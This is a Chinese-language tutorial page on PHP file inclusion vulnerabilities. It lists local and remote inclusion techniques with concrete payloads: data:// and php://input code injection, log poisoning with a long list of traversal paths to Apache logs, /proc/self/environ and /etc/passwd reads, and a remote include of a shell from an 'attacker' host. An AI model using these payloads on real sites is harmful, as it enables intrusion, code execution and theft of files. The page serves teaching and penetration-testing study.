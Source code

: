 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)文件包含漏洞

## ![](../img/github19.png)本地文件包含
#### 包含用户上传的文件
这是最简单的方法(条件:未配置open_basedir）

如果包含了php代码，那么这些代码被include()加载后执行

但需要上传php文件才行，需结合上传漏洞
#### 包含data://或php://input等协议
要求：服务器支持且allow_url_include设置为on，且未配置open_basedir;
php 5.2.0后版本支持data：伪协议
举例：
```
http://www.example.com/index.php?file=data:text/plain,<?php phpinfo();?>%00
```
#### 包含Session
条件：需要攻击者能控制部分Session文件的内容，且未配置open_basedir
比如：
```
xls:19:"<?php phpinfo();?>
PHP默认生成的Session文件往往存放在/tmp/下，比如/temp/sess_SESSIONID
```
#### 包含日志文件
这个技巧比较通用(条件:未配置open_basedir）

原理：服务器会往Web Server的access_log里记录客户的请求信息，在error_log里记录出错请求，攻击者可以间接地将php代码写入到日志文件中，文件包含时，只需要包含日志文件即可。
（凌晨时包含日志文件成功性会高些，因为此时日志很小）

找到日志文件所在目录:

通过读取httpd的配置文件httpd.conf找日志文件所在目录

httpd.conf一般会存在Apache的安装目录下

在Redhat系列，默认安装可能在/etc/httpd/conf/httpd.conf

而自定义安装的可能在/usr/local/apache/conf/httpd.conf

如果猜不到httpd目录和日志目录，可以构造一些异常也许能暴露web目录所在位置

常见的日志文件可能存在的地方：
```
/var/log/httpd/access_log
/var/log/httpd/error_log

/etc/httpd/logs/acces_log             (书上的确只有一个s)
/etc/httpd/logs/acces.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log

/var/www/logs/access_log
/var/www/logs/access.log
/var/www/logs/error_log
/var/www/logs/error.log

/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/usr/local/apache/logs/error_log
/usr/local/apache/logs/error.log

/var/log/apache/access_log
/var/log/apache/access.log
/var/log/apache/error_log
/var/log/apache/error.log

/var/log/access_log
/var/log/access.log
/var/log/error_log
/var/log/error.log

../apache/logs/error.log
../apache/logs/access.log

../../apache/logs/access.log
../../apache/logs/error.log

../../../apache/logs/access.log
../../../apache/logs/error.log

../../../../../../../../../../var/log/httpd/access_log
../../../../../../../../../../var/log/httpd/error_log

../../../../../../../../../../etc/httpd//logs/access_log
../../../../../../../../../../etc/httpd//logs/access.log
../../../../../../../../../../etc/httpd//logs/error_log
../../../../../../../../../../etc/httpd//logs/error.log

../../../../../../../../../../var/www/logs/access_log
../../../../../../../../../../var/www/logs/access.log
../../../../../../../../../../var/www/logs/error_log
../../../../../../../../../../var/www/logs/error.log

../../../../../../../../../../usr/local/apache/logs/access_log
../../../../../../../../../../usr/local/apache/logs/access.log
../../../../../../../../../../usr/local/apache/logs/error_log
../../../../../../../../../../usr/local/apache/logs/error.log

../../../../../../../../../../var/log/apache/access_log
../../../../../../../../../../var/log/apache/access.log
../../../../../../../../../../var/log/apache/error_log
../../../../../../../../../../var/log/apache/error.log

../../../../../../../../../../var/log/access_log
../../../../../../../../../../var/log/error_log
```
#### 包含/proc/self/environ文件
这是一个更通用的方法，不需要猜测路径
```
http://www.website.com/view.php?page=../../../../../proc/self/environ
```
(条件:未配置open_basedir）
#### 包含上传的临时文件（RFC1867）
#### 包含其他应用创建的文件
如数据库文件，缓存文件，应用日志等

## ![](../img/github20.png)远程文件包含
举例：
```
<?php>
if ($route == "share"){
require_once $basePath . '/action/m_share.php';}
elseif ($route == "sharelink"){
require_once $basePath . '/action/m_sharelink.php';}

可构造url:/?param=http://attacker/phpshell.txt?
则代码执行require_once ‘http://attacker/phpshell.txt?/action/m_share.php'
？后面的代码被解释称querystring，也是一种截断，也可以换成%00
```
远程文件包含也可以执行命令，比如上面的phpshell.txt的内容如果是：
```
<?php echo system("ver;");?>
```
#### 远程代码执行
```
?file=[http|https|ftp]://example.com/shell.txt
(需要allow_url_fopen=On并且 allow_url_include=On)
```
#### 利用php://input
(接受POST过来的值，可用hackbar的post栏里写入<?php phpinfo(); ?>)：
```
网址写：http://hello.com/world.php?file=php://input,这样就可以显示phpinfo了
```
(需要allow_url_include=On)

#### 利用php://filter
(过滤器,可以用来读取php文件内容,不需要开启allow_url_include)：
```
	?file=php://filter/convert.base64-encode/resource=index.php
```
#### 利用data://
?file=data://text/plain;base64,base64编码的payload
```
如：?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```
(需要allow_url_include=On,注意，PD9waHAgcGhwaW5mbygpOw==解码为<?php phpinfo();不能有闭合?>)
## ![](../img/github21.png)文件包含截断
```
%00截断(php版本小于5.3)
如：http://hello.com/1.php?a=2.txt%00
      http://hello.com/1.php?a=/etc/passwd%00
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
%00截断目录遍历：
 如/var/www/%00
 (需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
问号截断(问号后面相当于请求的参数，伪截断)
如 http://hello.com/test/123.php?f=http://remotehost.com/test/test.txt?id=
或者直接？： http://hello.com/test/123.php?f=http://remotehost.com/test/test.txt?  (test.txt内容为phpinfo代码)
英文(.) 反斜杠(/) 截断
长度截断：
windows下256个字节，linux下4096个字节时会达到最大值，最大长度之后的字符会被丢弃，用./构造长度如：
./././././././././././././././././abc
```
## ![](../img/github22.png)通过编码达到目录遍历

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
